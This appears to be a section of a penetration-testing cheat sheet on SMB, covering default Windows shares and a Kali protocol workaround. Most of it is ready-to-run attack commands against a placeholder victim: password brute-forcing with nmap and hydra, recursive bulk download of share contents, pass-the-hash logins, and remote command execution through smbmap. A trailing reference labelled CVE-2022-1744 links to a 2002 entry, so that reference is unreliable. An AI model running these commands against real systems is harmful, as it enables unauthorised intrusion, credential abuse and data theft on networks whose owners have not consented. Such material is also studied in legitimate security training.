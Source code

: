 Common shares for Windows:

- C$ - maps to C:/
- ADMIN$ - maps to C:/Windows
- IPC$ - used for RPC
- Print$ - hosts drivers for shared printers
- SYSVOL - only on DCs
- NETLOGON - only on DCs

**NOTE:** In recent versions of Kali, when connecting with `smbclient`, you might see an error message like:

```
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

This is due to the fact that NTLMv1 (insecure) protocol was disabled by default. You can turn it back on by adding the following settings under `GLOBAL` in `/etc/samba/smb.conf`

```
client min protocol = CORE
client max protocol = SMB3
```

Or you can add the flags `-m SMB2` or `-m SMB3` to your invocation of `smbclient` on the command line. However, this 2nd method does not apply to other tools like `enum4linux`


### 2.12.1 SMB Credential Bruteforcing

```sh
nmap --script smb-brute -p 445 $VICTIM_IP
hydra -V -f -l Administrator -P passwords.txt -t 1 $VICTIM_IP smb
```


### 2.12.2 Interacting with SMB

```sh
# tar all files [under a directory (no trailing slash on path)]
smbclient //10.10.10.123/SHARENAME -N -Tc smbfiles.tar [/PATH/TO/DIR]

# recursively get all files (interactive session)
smbclient //$VICTIM_IP/SHARENAME
> mask "" # don't filter any file names
> recurse on # recursively execute commands
> prompt off # don't prompt for file names
> mget * # copy all files matching mask to host

# Interactive smb shell with creds
smbclient '\\VICTIM_IP\sharename' -W DOMAIN -U username[%password]
# add --pw-nt-hash to tell it to interpret password as NT hash (don't include LM portion)
smbclient '\\VICTIM_IP\sharename' -W DOMAIN -U username%NTHASH --pw-nt-hash

smb:\> help  # displays commands to use
smb:\> ls  # list files
smb:\> get filename.txt  # fetch a file

# mount smb share
mount -t cifs -o "username=user,password=password" //x.x.x.x/share /mnt/share

# try executing a command using wmi (can try psexec by adding '--mode psexec')
smbmap -x 'ipconfig' $VICTIM_IP -u USER -p PASSWORD
```


[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744
